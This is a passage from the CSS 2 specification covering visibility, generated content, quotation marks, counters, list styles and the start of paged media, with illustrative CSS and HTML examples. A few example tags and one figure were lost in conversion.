The `visibility` property specifies whether the boxes generated by an element are rendered. Invisible boxes still affect layout (set the `display` property to `none` to suppress box generation altogether). Values have the following meanings:

****visible****

: The generated box is visible.

****hidden****

: The generated box is invisible (fully transparent, nothing is drawn), but still affects layout. Furthermore, descendants of the element will be visible if they have 'visibility: visible'.

****collapse****

: Please consult the section on [dynamic row and column effects](#css2:dynamic-effects) in tables. If used on elements other than rows, row groups, columns, or column groups, `collapse` has the same meaning as `hidden`.

This property may be used in conjunction with scripts to create dynamic effects.

> **Example:** In the following example, pressing either form button invokes an author-defined script function that causes the corresponding box to become visible and the other to be hidden. Since these boxes have the same size and position, the effect is that one replaces the other. (The script code is in a hypothetical script language. It may or may not have any effect in a CSS-capable UA.)
>
> ```html
> <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
> <HTML>
> <HEAD><TITLE>Dynamic visibility example</TITLE>
> <META
>  http-equiv="Content-Script-Type"
>  content="application/x-hypothetical-scripting-language">
> <STYLE type="text/css">
> <!—​#container1 { position: absolute;
>                  top: 2in; left: 2in; width: 2in }
>    #container2 { position: absolute;
>                  top: 2in; left: 2in; width: 2in;
>                  visibility: hidden; }
> -->
> </STYLE>
> </HEAD>
> <BODY>
> <P>Choose a suspect:</P>
> <DIV id="container1">
>             width="100" height="100"
>         src="suspect1.png">
>    <P>Name: Al Capone</P>
>    <P>Residence: Chicago</P>
> </DIV>
>
> <DIV id="container2">
>             width="100" height="100"
>         src="suspect2.png">
>    <P>Name: Lucky Luciano</P>
>    <P>Residence: New York</P>
> </DIV>
>
> <FORM method="post"
>       action="http://www.suspect.org/process-bums">
>    <P>
>    <INPUT name="Capone" type="button"
>           value="Capone"
>           onclick='show("container1");hide("container2")'>
>    <INPUT name="Luciano" type="button"
>           value="Luciano"
>           onclick='show("container2");hide("container1")'>
> </FORM>
> </BODY>
> </HTML>
> ```

### 12.  Generated **content**, automatic **numbering**, and lists {#css2:generated-text}

In some cases, authors may want user agents to render content that does not come from the document tree. One familiar example of this is a numbered list; the author does not want to list the numbers explicitly, they want the user agent to generate them automatically. Similarly, authors may want the user agent to insert the word "Figure" before the caption of a figure, or "Chapter 7" before the seventh chapter title. For audio or braille in particular, user agents should be able to insert these strings.

In CSS 2, content may be generated by two mechanisms:

- The `content` property, in conjunction with the :before and :after pseudo-elements.
- Elements with a value of `list-item` for the `display` property.

#### 12.1. The **:before** and **:after** pseudo-elements {#css2:before-after-content}

Authors specify the style and location of generated content with the :before and :after pseudo-elements. As their names indicate, the :before and :after pseudo-elements specify the location of content before and after an element’s document tree content. The `content` property, in conjunction with these pseudo-elements, specifies what is inserted.

> **Example:** For example, the following rule inserts the string "Note: " before the content of every P element whose "class" attribute has the value "note":
>
> ```css
> p.note:before { content: "Note: " }
> ```

The formatting objects (e.g., boxes) generated by an element include generated content. So, for example, changing the above style sheet to:

```css
p.note:before { content: "Note: " }
p.note        { border: solid green }
```

would cause a solid green border to be rendered around the entire paragraph, including the initial string.

The :before and :after pseudo-elements [inherit](#css2:inheritance) any inheritable properties from the element in the document tree to which they are attached.

> **Example:** For example, the following rules insert an open quote mark before every Q element. The color of the quote mark will be red, but the font will be the same as the font of the rest of the Q element:
>
> ```css
> q:before {
>   content: open-quote;
>   color: red
> }
> ```

In a :before or :after pseudo-element declaration, non-inherited properties take their [initial values](#css2:initial-value).

> **Example:** So, for example, because the initial value of the `display` property is `inline`, the quote in the previous example is inserted as an inline box (i.e., on the same line as the element’s initial text content). The next example explicitly sets the `display` property to `block`, so that the inserted text becomes a block:
>
> ```css
> body:after {
>     content: "The End";
>     display: block;
>     margin-top: 2em;
>     text-align: center;
> }
> ```

The :before and :after pseudo-elements interact with other boxes as if they were real elements inserted just inside their associated element.

> **Example:** For example, the following document fragment and style sheet:
>
> ```css
> <p> Text </p>                   p:before { display: block; content: 'Some'; }
> ```
>
> ...would render in exactly the same way as the following document fragment and style sheet:
>
> ```css
> <p><span>Some</span> Text </p>  span { display: block }
> ```
>
> Similarly, the following document fragment and style sheet:
>
> ```css
> <h2> Header </h2>     h2:after { display: block; content: 'Thing'; }
> ```
>
> ...would render in exactly the same way as the following document fragment and style sheet:
>
> ```css
> <h2> Header <span>Thing</span></h2>   h2 { display: block; }
>                                       span { display: block; }
> ```

> **Note:** **Note.** This specification does not fully define the interaction of :before and :after with replaced elements (such as IMG in HTML). This will be defined in more detail in a future specification.

#### 12.2. The `content` property {#css2:content①}

| Field | Value |
| --- | --- |
| Name: | **content** |
| [Value:](#css-values-4:value-defs) | normal \| none \| [ `<string>` \| `<uri>` \| `<counter>` \| attr(`<identifier>`) \| open-quote \| close-quote \| no-open-quote \| no-close-quote ]+ \| inherit |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | :before and :after pseudo-elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | On elements, always computes to `normal`. On :before and :after, if `normal` is specified, computes to `none`. Otherwise, for URI values, the absolute URI; for attr() values, the resulting string; for other keywords, as specified. |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | all |

This property is used with the :before and :after pseudo-elements to generate content in a document. Values have the following meanings:

****none****

: The pseudo-element is not generated.

****normal****

: Computes to `none` for the :before and :after pseudo-elements.

****`<string>`****

: Text content (see the section on [strings](#css2:strings)).

****`<uri>`****

: The value is a URI that designates an external resource (such as an image). If the user agent cannot display the resource it must either leave it out as if it were not specified or display some indication that the resource cannot be displayed.

****`<counter>`****

: [Counters](#css2:counter) may be specified with two different functions: `counter()` or `counters()`. The former has two forms: 'counter(*name*)' or 'counter(*name*, *style*)'.

  The generated text is the value of the innermost counter of the given name in scope at this pseudo-element; it is formatted in the indicated [style](#css2:counter-styles) (`decimal` by default). The latter function also has two forms: 'counters(*name*, *string*)' or 'counters(*name*, *string*, *style*)'. The generated text is the value of all counters with the given name in scope at this pseudo-element, from outermost to innermost separated by the specified string. The counters are rendered in the indicated [style](#css2:counter-styles) (`decimal` by default). See the section on [automatic counters and numbering](#css2:counters) for more information.

  The name must not be `none`, `inherit` or `initial`. Such a name causes the declaration to be ignored.

****open-quote** and **close-quote****

: These values are replaced by the appropriate string from the **`quotes`** property.

****no-open-quote** and **no-close-quote****

: Introduces no content, but increments (decrements) the level of nesting for quotes.

****attr(X)****

: This function returns as a string the value of attribute X for the subject of the selector. The string is not parsed by the CSS processor. If the subject of the selector does not have an attribute X, an empty string is returned. The case-sensitivity of attribute names depends on the document language.

> **Note:** **Note.** In CSS 2, it is not possible to refer to attribute values for other elements than the subject of the selector.

The `display` property controls whether the content is placed in a block or inline box.

> **Example:** The following rule causes the string "Chapter: " to be generated before each H1 element:
>
> ```css
> H1:before {
>   content: "Chapter: ";
>   display: inline;
> }
> ```

Authors may include newlines in the generated content by writing the "\A" escape sequence in one of the strings after the `content` property. This inserted line break is still subject to the `white-space` property. See ["Strings"](#css2:strings) and "Characters and case" for more information on the "\A" escape sequence.

> **Example:** ```css
> h1:before {
>     display: block;
>     text-align: center;
>     white-space: pre;
>     content: "chapter\A hoofdstuk\A chapitre"
> }
> ```

Generated content does not alter the document tree. In particular, it is not fed back to the document language processor (e.g., for reparsing).

#### 12.3. Quotation marks {#css2:quotes}

In CSS 2, authors may specify, in a style-sensitive and context-dependent manner, how user agents should render quotation marks. The `quotes` property specifies pairs of quotation marks for each level of embedded quotation. The `content` property gives access to those quotation marks and causes them to be inserted before and after a quotation.

##### 12.3.1. Specifying quotes with the `quotes` property {#css2:quotes-specify}

| Field | Value |
| --- | --- |
| Name: | **quotes** |
| [Value:](#css-values-4:value-defs) | [`<string>` <string>]+ \| none \| inherit |
| [Initial:](#css-cascade-6:initial-values) | depends on user agent |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

This property specifies quotation marks for any number of embedded quotations. Values have the following meanings:

****none****

: The `open-quote` and `close-quote` values of the `content` property produce no quotation marks.

****[`<string>`  <string>]+****

: Values for the `open-quote` and `close-quote` values of the `content` property are taken from this list of pairs of quotation marks (opening and closing). The first (leftmost) pair represents the outermost level of quotation, the second pair the first level of embedding, etc. The user agent must apply the appropriate pair of quotation marks according to the level of embedding.

> **Example:** For example, applying the following style sheet:
>
> ```css
> /* Specify pairs of quotes for two levels in two languages */
> q:lang(en) { quotes: '"' '"' "'" "'" }
> q:lang(no) { quotes: "«" "»" '"' '"' }
>
> /* Insert quotes before and after Q element content */
> q:before { content: open-quote }
> q:after  { content: close-quote }
> ```
>
> to the following HTML fragment:
>
> ```html
> <HTML lang="en">
>   <HEAD>
>   <TITLE>Quotes</TITLE>
>   </HEAD>
>   <BODY>
>     <P><Q>Quote me!</Q>
>   </BODY>
> </HTML>
> ```
>
> would allow a user agent to produce:
>
> ```
> "Quote me!"
> ```
>
> while this HTML fragment:
>
> ```html
> <HTML lang="no">
>   <HEAD>
>   <TITLE>Quotes</TITLE>
>   </HEAD>
>   <BODY>
>     <P><Q>Trøndere gråter når <Q>Vinsjan på kaia</Q> blir deklamert.</Q>
>   </BODY>
> </HTML>
> ```
>
> would produce:
>
> ```
> «Trøndere gråter når "Vinsjan på kaia" blir deklamert.»
> ```

> **Note:** ***Note.** While the quotation marks specified by `quotes` in the previous examples are conveniently located on computer keyboards, high quality typesetting would require different ISO 10646 characters. The following informative table lists some of the ISO 10646 quotation mark characters:*
>
> | Character | Approximate rendering | ISO 10646 code (hex) | Description |
> | --- | --- | --- | --- |
> | " | " | 0022 | QUOTATION MARK [the ASCII double quotation mark] |
> | ' | ' | 0027 | APOSTROPHE [the ASCII single quotation mark] |
> | ‹ | < | 2039 | SINGLE LEFT-POINTING ANGLE QUOTATION MARK |
> | › | > | 203A | SINGLE RIGHT-POINTING ANGLE QUOTATION MARK |
> | « | « | 00AB | LEFT-POINTING DOUBLE ANGLE QUOTATION MARK |
> | » | » | 00BB | RIGHT-POINTING DOUBLE ANGLE QUOTATION MARK |
> | ‘ | ` | 2018 | LEFT SINGLE QUOTATION MARK [single high-6] |
> | ’ | ' | 2019 | RIGHT SINGLE QUOTATION MARK [single high-9] |
> | “ | `` | 201C | LEFT DOUBLE QUOTATION MARK [double high-6] |
> | ” | '' | 201D | RIGHT DOUBLE QUOTATION MARK [double high-9] |
> | „ | ,, | 201E | DOUBLE LOW-9 QUOTATION MARK [double low-9] |

##### 12.3.2. Inserting quotes with the `content` property {#css2:quotes-insert}

Quotation marks are inserted in appropriate places in a document with the `open-quote`' and `close-quote` values of the `content` property. Each occurrence of `open-quote` or `close-quote` is replaced by one of the strings from the value of `quotes`, based on the depth of nesting.

`open-quote` refers to the first of a pair of quotes, `close-quote` refers to the second. Which pair of quotes is used depends on the nesting level of quotes: the number of occurrences of `open-quote` in all generated text before the current occurrence, minus the number of occurrences of `close-quote`. If the depth is 0, the first pair is used, if the depth is 1, the second pair is used, etc. If the depth is greater than the number of pairs, the last pair is repeated. A `close-quote` or `no-close-quote` that would make the depth negative is in error and is ignored (at rendering time): the depth stays at 0 and no quote mark is rendered (although the rest of the `content` property’s value is still inserted).

> **Note:** ***Note.** The quoting depth is independent of the nesting of the source document or the formatting structure.*

Some typographic styles require open quotation marks to be repeated before every paragraph of a quote spanning several paragraphs, but only the last paragraph ends with a closing quotation mark. In CSS, this can be achieved by inserting "phantom" closing quotes. The keyword `no-close-quote` decrements the quoting level, but does not insert a quotation mark.

> **Example:** The following style sheet puts opening quotation marks on every paragraph in a BLOCKQUOTE, and inserts a single closing quote at the end:
>
> ```css
> blockquote p:before     { content: open-quote }
> blockquote p:after      { content: no-close-quote }
> blockquote p.last:after { content: close-quote }
> ```
>
> This relies on the last paragraph being marked with a class "last".

For symmetry, there is also a no-open-quote keyword, which inserts nothing, but increments the quotation depth by one.

#### 12.4. Automatic **counters** and numbering {#css2:counters}

Automatic numbering in CSS 2 is controlled with two properties, `counter-increment` and `counter-reset`. The counters defined by these properties are used with the counter() and counters() functions of the `content` property.

| Field | Value |
| --- | --- |
| Name: | **counter-reset** |
| [Value:](#css-values-4:value-defs) | [ `<identifier>` `<integer>`? ]+ \| none \| inherit |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | all |

| Field | Value |
| --- | --- |
| Name: | **counter-increment** |
| [Value:](#css-values-4:value-defs) | [ `<identifier>` `<integer>`? ]+ \| none \| inherit |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | all |

The `counter-increment` property accepts one or more names of counters (identifiers), each one optionally followed by an integer. The integer indicates by how much the counter is incremented for every occurrence of the element. The default increment is 1. Zero and negative integers are allowed.

The `counter-reset` property also contains a list of one or more names of counters, each one optionally followed by an integer. The integer gives the value that the counter is set to on each occurrence of the element. The default is 0.

The keywords `none`, `inherit` and `initial` must not be used as counter names. A value of **none** on its own means no counters are reset, resp. incremented. `inherit` on its own has its usual meaning (see [6.2.1](#css2:value-def-inherit)). `initial` is reserved for future use.

> **Example:** This example shows a way to number chapters and sections with "Chapter 1", "1.1", "1.2", etc.
>
> ```css
> BODY {
>     counter-reset: chapter;      /* Create a chapter counter scope */
> }
> H1:before {
>     content: "Chapter " counter(chapter) ". ";
>     counter-increment: chapter;  /* Add 1 to chapter */
> }
> H1 {
>     counter-reset: section;      /* Set section to 0 */
> }
> H2:before {
>     content: counter(chapter) "." counter(section) " ";
>     counter-increment: section;
> }
> ```

If an element increments/resets a counter and also uses it (in the `content` property of its :before or :after pseudo-element), the counter is used *after* being incremented/reset.

If an element both resets and increments a counter, the counter is reset first and then incremented.

If the same counter is specified more than once in the value of the `counter-reset` and `counter-increment` properties, each reset/increment of the counter is processed in the order specified.

> **Example:** The following example will reset the `section` counter to 0:
>
> ```css
> H1 { counter-reset: section 2 section }
> ```
>
> The following example will increment the `chapter` counter by 3:
>
> ```css
> H1 { counter-increment: chapter chapter 2 }
> ```

The `counter-reset` property follows the cascading rules. Thus, due to cascading, the following style sheet:

```css
H1 { counter-reset: section -1 }
H1 { counter-reset: imagenum 99 }
```

will only reset `imagenum`. To reset both counters, they have to be specified together:

```css
H1 { counter-reset: section -1 imagenum 99 }
```

##### 12.4.1. Nested counters and scope {#css2:scope}

Counters are "self-nesting", in the sense that resetting a counter in a descendant element or pseudo-element automatically creates a new instance of the counter. This is important for situations like lists in HTML, where elements can be nested inside themselves to arbitrary depth. It would be impossible to define uniquely named counters for each level.

> **Example:** Thus, the following suffices to number nested list items. The result is very similar to that of setting `display:list-item` and 'list-style: inside' on the LI element:
>
> ```css
> OL { counter-reset: item }
> LI { display: block }
> LI:before { content: counter(item) ". "; counter-increment: item }
> ```

The **scope** of a counter starts at the first element in the document that has a `counter-reset` for that counter and includes the element’s descendants and its following siblings with their descendants. However, it does not include any elements in the scope of a counter with the same name created by a `counter-reset` on a later sibling of the element or by a later `counter-reset` on the same element.

If `counter-increment` or `content` on an element or pseudo-element refers to a counter that is not in the scope of any `counter-reset`, implementations should behave as though a `counter-reset` had reset the counter to 0 on that element or pseudo-element.

In the example above, an OL will create a counter, and all children of the OL will refer to that counter.

> **Example:** If we denote by item[n] the nth instance of the "item" counter, and by "{" and "}" the beginning and end of a scope, then the following HTML fragment will use the indicated counters. (We assume the style sheet as given in the example above).
>
> ```css
> <OL>                    <!-- {item[0]=0        -->
>   <LI>item</LI>         <!--  item[0]++ (=1)   -->
>   <LI>item              <!--  item[0]++ (=2)   -->
>     <OL>                <!--  {item[1]=0       -->
>       <LI>item</LI>     <!--   item[1]++ (=1)  -->
>       <LI>item</LI>     <!--   item[1]++ (=2)  -->
>       <LI>item          <!--   item[1]++ (=3)  -->
>         <OL>            <!--   {item[2]=0      -->
>           <LI>item</LI> <!--    item[2]++ (=1) -->
>         </OL>           <!--                   -->
>         <OL>            <!--   }{item[2]=0     -->
>           <LI>item</LI> <!--    item[2]++ (=1) -->
>         </OL>           <!--                   -->
>       </LI>             <!--   }               -->
>       <LI>item</LI>     <!--   item[1]++ (=4)  -->
>     </OL>               <!--                   -->
>   </LI>                 <!--  }                -->
>   <LI>item</LI>         <!--  item[0]++ (=3)   -->
>   <LI>item</LI>         <!--  item[0]++ (=4)   -->
> </OL>                   <!--                   -->
> <OL>                    <!-- }{item[0]=0       -->
>   <LI>item</LI>         <!--  item[0]++ (=1)   -->
>   <LI>item</LI>         <!--  item[0]++ (=2)   -->
> </OL>                   <!--                   -->
> ```

> **Example:** Another example, showing how scope works when counters are used on elements that are not nested, is the following. This shows how the style rules given above to number chapters and sections would apply to the markup given.
>
> ```xml
>                      <!--"chapter" counter|"section" counter -->
> <body>               <!-- {chapter=0      |                  -->
>   <h1>About CSS</h1> <!--  chapter++ (=1) | {section=0       -->
>   <h2>CSS 2</h2>     <!--                 |  section++ (=1)  -->
>   <h2>CSS 2</h2>   <!--                 |  section++ (=2)  -->
>   <h1>Style</h1>     <!--  chapter++ (=2) |}{ section=0      -->
> </body>              <!--                 | }                -->
> ```

The `counters()` function generates a string composed of all of the counters with the same name that are in scope, separated by a given string.

> **Example:** The following style sheet numbers nested list items as "1", "1.1", "1.1.1", etc.
>
> ```css
> OL { counter-reset: item }
> LI { display: block }
> LI:before { content: counters(item, ".") " "; counter-increment: item }
> ```

##### 12.4.2. Counter styles {#css2:counter-styles}

By default, counters are formatted with decimal numbers, but all the styles available for the `list-style-type` property are also available for counters. The notation is:

```
counter(name)
```

for the default style, or:

```
counter(name, <'list-style-type'>)
```

All the styles are allowed, including `disc`, `circle`, `square`, and `none`.

> **Example:** ```css
> H1:before        { content: counter(chno, upper-latin) ". " }
> H2:before        { content: counter(section, upper-roman) " - " }
> BLOCKQUOTE:after { content: " [" counter(bq, lower-greek) "]" }
> DIV.note:before  { content: counter(notecntr, disc) " " }
> P:before         { content: counter(p, none) }
> ```

##### 12.4.3. Counters in elements with 'display: none' {#css2:undisplayed-counters}

An element that is not displayed (`display` set to `none`) cannot increment or reset a counter.

> **Example:** For example, with the following style sheet, H2s with class "secret" do not increment `count2`.
>
> ```css
> H2.secret {counter-increment: count2; display: none}
> ```

Pseudo-elements that are not generated also cannot increment or reset a counter.

> **Example:** For example, the following does not increment `heading`:
>
> ```css
> h1::before {
>     content: normal;
>     counter-increment: heading;
> }
> ```

Elements with `visibility` set to `hidden`, on the other hand, *do* increment counters.

#### 12.5. Lists {#css2:lists}

CSS 2 offers basic visual formatting of lists. An element with 'display: list-item' generates a principal block box for the element’s content and, depending on the values of `list-style-type` and `list-style-image`, possibly also a marker box as a visual indication that the element is a list item.

The **list properties** describe basic visual formatting of lists: they allow style sheets to specify the marker type (image, glyph, or number), and the marker position with respect to the principal box (outside it or within it before content). They do not allow authors to specify distinct style (colors, fonts, alignment, etc.) for the list marker or adjust its position with respect to the principal box; these may be derived from the principal box.

The [background properties](#css2:background-properties) apply to the principal box only; an `outside` marker box is transparent.

##### 12.5.1. Lists: the `list-style-type`, `list-style-image`, `list-style-position`, and `list-style` properties {#css2:list-style}

| Field | Value |
| --- | --- |
| Name: | **list-style-type** |
| [Value:](#css-values-4:value-defs) | disc \| circle \| square \| decimal \| decimal-leading-zero \| lower-roman \| upper-roman \| lower-greek \| lower-latin \| upper-latin \| armenian \| georgian \| lower-alpha \| upper-alpha \| none \| inherit |
| [Initial:](#css-cascade-6:initial-values) | disc |
| [Applies to:](#css-cascade-5:applies-to) | elements with 'display: list-item' |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

This property specifies appearance of the list item marker if `list-style-image` has the value `none` or if the image pointed to by the URI cannot be displayed. The value **none** specifies no marker, otherwise there are three types of marker: glyphs, numbering systems, and alphabetic systems.

Glyphs are specified with **disc**, **circle**, and **square**. Their exact rendering depends on the user agent.

Numbering systems are specified with:

****decimal****

: Decimal numbers, beginning with 1.

****decimal-leading-zero****

: Decimal numbers padded by initial zeros (e.g., 01, 02, 03, ..., 98, 99).

****lower-roman****

: Lowercase roman numerals (i, ii, iii, iv, v, etc.).

****upper-roman****

: Uppercase roman numerals (I, II, III, IV, V, etc.).

****georgian****

: Traditional Georgian numbering (an, ban, gan, ..., he, tan, in, in-an, ...).

****armenian****

: Traditional uppercase Armenian numbering.

Alphabetic systems are specified with:

****lower-latin** or **lower-alpha****

: Lowercase ascii letters (a, b, c, ... z).

****upper-latin** or **upper-alpha****

: Uppercase ascii letters (A, B, C, ... Z).

****lower-greek****

: Lowercase classical Greek alpha, beta, gamma, ... (α, β, γ, ...)

This specification does not define how alphabetic systems wrap at the end of the alphabet. For instance, after 26 list items, `lower-latin` rendering is undefined. Therefore, for long lists, we recommend that authors specify true numbers.

CSS 2 does not define how the list numbering is reset and incremented. This is expected to be defined in the CSS List Module [CSS3LIST].

> **Example:** For example, the following HTML document:
>
> ```
> <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
> <HTML>
>    <HEAD>
>      <TITLE>Lowercase latin numbering</TITLE>
>      <STYLE type="text/css">
>           ol { list-style-type: lower-roman }
>      </STYLE>
>   </HEAD>
>   <BODY>
>     <OL>
>       <LI> This is the first item.
>       <LI> This is the second item.
>       <LI> This is the third item.
>     </OL>
>   </BODY>
> </HTML>
> ```
>
> might produce something like this:
>
> ```
>   i This is the first item.
>  ii This is the second item.
> iii This is the third item.
> ```
>
> The list marker alignment (here, right justified) depends on the user agent.

| Field | Value |
| --- | --- |
| Name: | **list-style-image** |
| [Value:](#css-values-4:value-defs) | `<uri>` \| none \| inherit |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | elements with 'display: list-item' |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | absolute URI or `none` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

This property sets the image that will be used as the list item marker. When the image is available, it will replace the marker set with the `list-style-type` marker.

The size of the image is calculated from the following rules:

1. If the image has a intrinsic width and height, the used width and height are the intrinsic width and height.
2. Otherwise, if the image has an intrinsic ratio and either an intrinsic width or an intrinsic height, the used width/height is the same as the provided intrinsic width/height, and the used value of the missing dimension is calculated from the provided dimension and the ratio.
3. Otherwise, if the image has an intrinsic ratio, the used width is 1em and the used height is calculated from this width and the intrinsic ratio. If this would produce a height larger than 1em, then the used height is instead set to 1em and the used width is calculated from this height and the intrinsic ratio.
4. Otherwise, the image’s used width is its intrinsic width if it has one, or else 1em. The image’s used height is its intrinsic height if it has one, or else 1em.

> **Example:** The following example sets the marker at the beginning of each list item to be the image "ellipse.png".
>
> ```css
> ul { list-style-image: url("http://png.com/ellipse.png") }
> ```

| Field | Value |
| --- | --- |
| Name: | **list-style-position** |
| [Value:](#css-values-4:value-defs) | inside \| outside \| inherit |
| [Initial:](#css-cascade-6:initial-values) | outside |
| [Applies to:](#css-cascade-5:applies-to) | elements with 'display: list-item' |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

This property specifies the position of the marker box with respect to the principal block box. Values have the following meanings:

****outside****

: The marker box is outside the principal block box. The position of the list-item marker adjacent to floats is undefined in CSS 2. CSS 2 does not specify the precise location of the marker box or its position in the painting order, but does require that for list items whose `direction` property is `ltr` the marker box be on the left side of the content and for elements whose `direction` property is `rtl` the marker box be on the right side of the content.

  The marker box is fixed with respect to the principal block box’s border and does not scroll with the principal block box’s content.

  In CSS 2, a UA may hide the marker if the element’s `overflow` is other than `visible`. (This is expected to change in the future.)

  The size or contents of the marker box may affect the height of the principal block box and/or the height of its first line box, and in some cases may cause the creation of a new line box. **Note:** This interaction may be more precisely defined in a future level of CSS.

****inside****

: The marker box is placed as the first inline box in the principal block box, before the element’s content and before any :before pseudo-elements. CSS 2 does not specify the precise location of the marker box.

> **Example:** For example:
>
> ```
> <HTML>
>   <HEAD>
>     <TITLE>Comparison of inside/outside position</TITLE>
>     <STYLE type="text/css">
>       ul         { list-style: outside }
>       ul.compact { list-style: inside }
>     </STYLE>
>   </HEAD>
>   <BODY>
>     <UL>
>       <LI>first list item comes first
>       <LI>second list item comes second
>     </UL>
>
>     <UL class="compact">
>       <LI>first list item comes first
>       <LI>second list item comes second
>     </UL>
>   </BODY>
> </HTML>
> ```
>
> The above example may be formatted as:
>
> 
>
> In right-to-left text, the markers would have been on the right side of the box.

| Field | Value |
| --- | --- |
| Name: | **list-style** |
| [Value:](#css-values-4:value-defs) | [ `<'list-style-type'>` \|\| `<'list-style-position'>` \|\| `<'list-style-image'>` ] \| inherit |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | elements with 'display: list-item' |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| Media: | visual |

The `list-style` property is a shorthand notation for setting the three properties `list-style-type`, `list-style-image`, and `list-style-position` at the same place in the style sheet.

> **Example:** ```css
> ul { list-style: upper-roman inside }  /* Any "ul" element */
> ul > li > ul { list-style: circle outside } /* Any "ul" child
>                                              of an "li" child
>                                              of a "ul" element */
> ```

Although authors may specify `list-style` information directly on list item elements (e.g., "li" in HTML), they should do so with care. The following rules look similar, but the first declares a [descendant selector](#css2:descendant-selectors) and the second a (more specific) [child selector.](#css2:child-selectors)

```css
ol.alpha li   { list-style: lower-alpha } /* Any "li" descendant of an "ol" */
ol.alpha > li { list-style: lower-alpha } /* Any "li" child of an "ol" */
```

Authors who use only the [descendant selector](#css2:descendant-selectors) may not achieve the results they expect. Consider the following rules:

```html
<HTML>
  <HEAD>
    <TITLE>WARNING: Unexpected results due to cascade</TITLE>
    <STYLE type="text/css">
      ol.alpha li  { list-style: lower-alpha }
      ul li        { list-style: disc }
    </STYLE>
  </HEAD>
  <BODY>
    <OL class="alpha">
      <LI>level 1
      <UL>
         <LI>level 2
      </UL>
    </OL>
  </BODY>
</HTML>
```

The desired rendering would have level 1 list items with `lower-alpha` labels and level 2 items with `disc` labels. However, the [cascading order](#css2:cascading-order) will cause the first style rule (which includes specific class information) to mask the second. The following rules solve the problem by employing a [child selector](#css2:child-selectors) instead:

```css
ol.alpha > li  { list-style: lower-alpha }
ul li   { list-style: disc }
```

Another solution would be to specify `list-style` information only on the list type elements:

```css
ol.alpha  { list-style: lower-alpha }
ul        { list-style: disc }
```

Inheritance will transfer the `list-style` values from OL and UL elements to LI elements. This is the recommended way to specify list style information.

> **Example:** A URI value may be combined with any other value, as in:
>
> ```css
> ul { list-style: url("http://png.com/ellipse.png") disc }
> ```
>
> In the example above, the `disc` will be used when the image is unavailable.

A value of `none` within the `list-style` property sets whichever of `list-style-type` and `list-style-image` are not otherwise specified to `none`. However, if both are otherwise specified, the declaration is in error (and thus ignored).

> **Example:** For example, a value of `none` for the `list-style` property sets both `list-style-type` and `list-style-image` to `none`:
>
> ```css
> ul { list-style: none }
> ```
>
> The result is that no list-item marker is displayed.

### 13. Paged media {#css2:the-page}

#### 13.1. Introduction to paged media {#css2:page-intro}

Paged media (e.g., paper, transparencies, pages that are displayed on computer screens, etc.) differ from continuous media in that the content of the document is split into one or more discrete pages. To handle pages, CSS 2 describes how page margins are set on [page boxes](#css2:page-box), and how [page breaks](#css2:page-breaks) are declared.

The user agent is responsible for transferring the page boxes of a document onto the real **sheets** where the document will ultimately be rendered (paper, transparency, screen, etc.). There is often a 1-to-1 relationship between a page box and a sheet, but this is not always the case. Transfer possibilities include:

- Transferring one page box to one sheet (e.g., single-sided printing).
- Transferring two page boxes to both sides of the same sheet (e.g., double-sided printing).
- Transferring N (small) page boxes to one sheet (called "n-up").
- Transferring one (large) page box to N x M sheets (called "tiling").
- Creating signatures. A signature is a group of pages printed on a sheet, which, when folded and trimmed like a book, appear in their proper sequence.
- Printing one document to several output trays.
- Outputting to a file.

#### 13.2. Page boxes: the @page rule {#css2:page-box}

The **page box** is a rectangular region that contains two areas:

- The **page area**. The page area includes the boxes laid out on that page. The edges of the first page area establish the rectangle that is the initial [containing block](#css2:containing-block-details) of the document. The canvas background is painted within and covers the page area.
- The margin area, which surrounds the page area. The page margin area is transparent.

The size of a page box cannot be specified in CSS 2.

